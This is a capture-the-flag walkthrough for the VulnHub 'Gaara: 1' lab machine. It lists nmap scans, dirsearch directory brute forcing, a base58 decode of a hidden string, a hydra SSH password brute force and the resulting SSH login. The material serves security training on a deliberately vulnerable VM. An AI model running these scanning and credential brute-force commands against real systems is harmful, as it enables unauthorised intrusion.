










:::::::::::::: page
# Gaara: 1 {#gaara-1 .title}

\

## 

## Gaara: 1

- **[Gaara: 1]{style="color:#f66151;"}** :-

<!-- -->

- Download the machine : <https://www.vulnhub.com/entry/gaara-1,629/>

- Open ova file .
- Then click finish .
- Start the machine .

1.  [Network Scanning]{style="color:#e01b24;"} :

- Find the machine IP :

::: codebox
    nmap -sn 192.168.2.0/24
:::

- Run nmap master command :

::: codebox
    nmap -v -Pn -sT -sV -sC -A -O -p- 192.168.2.234
:::

- Find available port in the machine ( Optional ) :

::: codebox
    nmap -v -p- 192.168.2.234
:::

- 

::: codebox
    nmap -sC -sV -A 192.168.2.234
:::

- This command runs an aggressive scan and uses the http-enum script to
  identify potential CGI directories .

::: codebox
    nmap -v -p 80 -sT -sV -A --script=http-enum.nse 192.168.2.234
:::

1.  [Web Enumeration]{style="color:#e01b24;"} :

- IP visit in browser : <http://192.168.2.234>

<!-- -->

- Directory brute force :

::: codebox
    dirsearch -u http://192.168.2.234 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
:::

- Visit the parameter : <http://192.168.2.234/Cryoserver>

- Visit hidden parameter in browser :

::: codebox
    /Temari
    /Kazekage
    /iamGaaara
:::

<http://192.168.2.234/Temari>

<http://192.168.2.234/Kazekage>

<http://192.168.2.234/iamGaara>

- In /iamGaara parameter find hidden encoded value :

::: codebox
    f1MgN9mTf9SNbzRygcU
:::

- 

- Now Decode the value :

::: codebox
    python3 -c "import base58; print(base58.b58decode('f1MgN9mTf9SNbzRygcU').decode())"
:::

- Run the hydra to find the password :

::: codebox
    hydra -l gaara -P /opt/rockyou.txt ssh://192.168.2.234
:::

- Now make the ssh connection :

::: codebox
    ssh gaara@192.168.2.234
:::

 
::::::::::::::
